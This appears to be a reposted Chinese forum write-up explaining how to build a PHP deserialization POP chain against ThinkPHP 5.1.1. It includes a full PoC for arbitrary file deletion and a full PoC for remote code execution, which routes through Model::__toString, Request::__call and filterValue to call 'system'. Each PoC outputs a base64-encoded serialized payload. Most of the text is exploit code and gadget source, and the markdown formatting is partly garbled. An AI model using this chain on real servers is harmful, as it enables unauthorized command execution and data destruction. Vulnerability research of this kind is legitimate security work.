

# Thinkphp 5.1.1 反序列化pop链构造

> 原文：[https://www.zhihuifly.com/t/topic/3176](https://www.zhihuifly.com/t/topic/3176)

# Thinkphp 5.1.1 反序列化pop链构造

## 一、漏洞简介

5.1.1的代码实现和5.1.38不同，于是就有了这篇文章

## 二、漏洞影响

Thinkphp 5.1.1

## 三、复现过程

这个漏洞的起点是一个任意文件删除漏洞
$this->files内容没有过滤，可以传入任意数值。

```
/thinkphp/library/think/process/pipes/Windows.php
public function __destruct()
    {
        $this->close();
        $this->removeFiles();
    } `private function removeFiles()

{

foreach ($this->files as $filename) {

if (file_exists($filename)) {

@unlink($filename);

}

}

$this->files = [];

}` 
```

poc

```
<?php
namespace think\process\pipes;
class Windows
{
    private $files = [];
    public function __construct()
    {
        $this->files = ['1.php'];
    }
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows())); 
```

### 反序列链构造

> 先分析一下thinkphp5.1.38的poc

```
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["ethan"=>["calc.exe","calc"]];
        $this->data = ["ethan"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system";
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       => '_method',
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',
        // 表单pjax伪装变量
        'var_pjax'         => '_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     => 's',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   => '',
        // 域名根，如thinkphp.cn
        'url_domain_root'  => '',
        // HTTPS代理标识
        'https_agent_name' => '',
        // IP代理获取标识
        'http_agent_ip'    => 'HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  => 'html',
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>''];
        $this->hook = ["visible"=>[$this,"isAjax"]];
    }
}
namespace think\process\pipes;

use think\model\concern\Conversion;

use think\model\Pivot;

class Windows

{

private $files = [];

```
public function __construct()
{
    $this-&gt;files=[new Pivot()];
} 
```

}

namespace think\model;

use think\Model; `class Pivot extends Model

{

}

use think\process\pipes\Windows;

echo base64_encode(serialize(new Windows()));

?>` 
```

file_exists如果传入的是对象,将会将对象以字符串的形式处理。而**toString魔术方法是当一个对象被当作字符串对待的时候,会触发这个魔术方法。所以全局搜索带有toString函数的类。
最后找到\thinkphp\library\think\model\concern\Conversion.php的Conversion类
后面的调用流程是** toString--->$this->toJson---->$this->toArray
跟进到toArray方法里，在3.1.38的poc里是通过调用$relation->visible方法，向$relation传入request对象，而request对象没有visible方法，从而调用**call方法。而我们这里也可以使用这种方法。
(注意:**call传入的第一个参数是方法名，第二个参数是参数数组。所以这里传入__call方法的方法名为append，而不是原来的visible)

```
$relation = $this->getAttr($key);
$item[$key] = $relation->append($name)->toArray();
thinkphp3.1.38代码
$relation = $this->getAttr($key);
if ($relation) { $relation->visible($name); } 
```

```
public function __toString()
    {
        return $this->toJson();
    }

public function toJson($options = JSON_UNESCAPED_UNICODE)

{

return json_encode($this->toArray(), $options);

}

public function toArray()

{

$item    = [];

$visible = [];

$hidden  = [];

```
 ......
    foreach ($data as $key =&gt; $val) {
    .........

    // 追加属性（必须定义获取器）
    if (!empty($this-&gt;append)) {
        foreach ($this-&gt;append as $key =&gt; $name) {
            if (is_array($name)) {
                // 追加关联对象属性
                $relation   = $this-&gt;getAttr($key);
                $item[$key] = $relation-&gt;append($name)-&gt;toArray();
            } elseif (strpos($name, '.')) {
                list($key, $attr) = explode('.', $name);
                // 追加关联对象属性
                $relation   = $this-&gt;getAttr($key);
                $item[$key] = $relation-&gt;append([$attr])-&gt;toArray();
            } else {
                $value = $this-&gt;getAttr($name, $item);
                if (false !== $value) {
                    $item[$name] = $value;
                }
            }
        }
    }

    return $item;
} 
``` 
```

由于Conversion和Attribute是trait类型，不能直接调用，所以要找到调用这两个类的类即model类。

```
abstract class Model implements \JsonSerializable, \ArrayAccess
{
    use model\concern\Attribute;
    use model\concern\RelationShip;
    use model\concern\ModelEvent;
    use model\concern\TimeStamp;
    use model\concern\Conversion; 
```

model类是抽象类，不能直接调用。所以调用他的子类Pivot类(think\Model\Pivot)。

在源码中查找存在**call函数和没有append方法的类，(**call方法是在类没有调用函数的时候调用,第一个参数为方法名，第二个参数为方法的第一个参数)
最后查找到的是/thinkphp/library/think/Request.php的Request类,其中存在call_user_func_array方法

```
 public function __call($method, $args)
    {
        if (array_key_exists($method, $this->hook)) {
            array_unshift($args, $this);
            return call_user_func_array($this->hook[$method], $args);
        } else {
            throw new Exception('method not exists:' . static::class . '->' . $method);
        }
    } 
```

虽然$this->hook可控,但是由于array_unshift函数的作用，导致$args数组中会加入新的数组，所以判断不好利用。但是他是一个回调函数，可以以$this->hook[$method]=[$this,methodName]这种形式回调函数。
在Request类中查找call_user_func_array这种类型的函数，最后找到filterValue函数。
filterValue函数里面的call_user_func_array方法是这个漏洞的触发点。回溯$filter和$value

```
 private function filterValue(&$value, $key, $filters)
    {
        $default = array_pop($filters);

```
 foreach ($filters as $filter) {
        if (is_callable($filter)) {
            // 调用函数或者方法过滤
            $value = call_user_func($filter, $value);
        } elseif (is_scalar($value)) {
            if (false !== strpos($filter, '/')) {
                // 正则过滤
                if (!preg_match($filter, $value)) {
                    // 匹配不成功返回默认值
                    $value = $default;
                    break;
                }
            } elseif (!empty($filter)) {
                // filter函数不存在时, 则使用filter_var进行过滤
                // filter为非整形值时, 调用filter_id取得过滤id
                $value = filter_var($value, is_int($filter) ? $filter : filter_id($filter));
                if (false === $value) {
                    $value = $default;
                    break;
                }
            }
        }
    }

    return $value;
} 
``` 
```

最后找到这样的一个调用流程，可以控制$filter, $value这两个变量。
isAjax()---->$this->param()----->$this->input------->$this->filterValue 分析下$filter, $value这两个变量的传递过程:
$value:isAjax方法的$this->config->get('var_ajax')---->param方法的$name----->input方法的$name。所以$value可控。

$filter参数:param方法$this->param---->input方法$data

```
 public function isAjax($ajax = false)
    {
        $value  = $this->server('HTTP_X_REQUESTED_WITH', '', 'strtolower');
        $result = ('xmlhttprequest' == $value) ? true : false;

```
 if (true === $ajax) {
        return $result;
    } else {
        return $this-&gt;param($this-&gt;config-&gt;get('var_ajax')) ? true : $result;
    }
} 
```

public function param($name = ‘’, $default = null, $filter = ‘’)

{

if (empty($this->param)) {

…

```
 return $this-&gt;input($this-&gt;param, $name, $default, $filter);
} 
```

public function input($data = [], $name = ‘’, $default = null, $filter = ‘’)

{

if (false === $name) {

// 获取原始数据

return $data;

}

```
 $name = (string) $name;
    if ('' != $name) {
        // 解析name
        if (strpos($name, '/')) {
            list($name, $type) = explode('/', $name);
        } else {
            $type = 's';
        }
        // 按.拆分成多维数组进行判断
        foreach (explode('.', $name) as $val) {
            if (isset($data[$val])) {
                $data = $data[$val];
            } else {
                // 无输入数据，返回默认值
                return $default;
            }
        }
        if (is_object($data)) {
            return $data;
        }
    }

    // 解析过滤器
    $filter = $this-&gt;getFilter($filter, $default);

    if (is_array($data)) {
        array_walk_recursive($data, [$this, 'filterValue'], $filter);
        reset($data);
    } else {
        $this-&gt;filterValue($data, $name, $filter);
    }

    .......
    return $data;
} 
``` 
```

$this->param=array_merge($this->param, $this->get(false), $vars, $this->route(false));是直接从url中获取参数。
$this->config->get('var_ajax')也是可控的。但是他和5.1.38不同的是，5.1.38的方法是$this->config['var_ajax'],所以导致不能用数组直接操控config值。
我的解决办法是从源码中查找含有get函数的类,通过pop链的方式操控config的值。 最后发现\think\Hook.php的Hook类存在get方法

```
public function get($tag = '')
    {
        if (empty($tag)) {
            //获取全部的插件信息
            return $this->tags;
        } else {
            return array_key_exists($tag, $this->tags) ? $this->tags[$tag] : [];
        }
    } 
```

由上面代码可以看出，程序会判断传入的$tag是否为空，不为空的话会返回传入参数在tags数组中对应的值。private $tags = ["var_ajax"=>'a'];类似于这种形式，便可以操控$this->config->get('var_ajax')的值。
由此$filter和$value都是可控的。所以可以通过filterValue方法中的call_user_func_array任意代码执行。

### poc

```
<?php
namespace think;
abstract class Model
{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["a"=>["calc.exe"]];
        $this->data = ["a"=>new Request()];
    }
}
namespace think\model;
use think\Model;
class Pivot extends Model
{
}
namespace think\process\pipes;
use think\model\Pivot;
class Windows
{
    private $files = [];
    public function __construct()
    {
        $this->files = [new Pivot()];
    }
}
namespace think;
class Request
{
    protected $hook = [];
    protected $filter = "system";
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       => '_method',
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',
        // 表单pjax伪装变量
        'var_pjax'         => '_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     => 's',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   => '',
        // 域名根，如thinkphp.cn
        'url_domain_root'  => '',
        // HTTPS代理标识
        'https_agent_name' => '',
        // IP代理获取标识
        'http_agent_ip'    => 'HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  => 'html',
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = new Hook();
        $this->hook = ["append"=>[$this,"isAjax"]];
    } `}

namespace think;

class Hook{

private $tags = [“var_ajax”=>‘a’];

public function get($tag = ‘’)

{

if (empty($tag)) {

//获取全部的插件信息

return $this->tags;

} else {

return array_key_exists($tag, $this->tags) ? $this->tags[$tag] : [];

}

}

}

use think\process\pipes\Windows;

echo base64_encode(serialize(new Windows()));` 
```

> 漏洞的利用前提是存在一个点可以输入点可以反序列化。

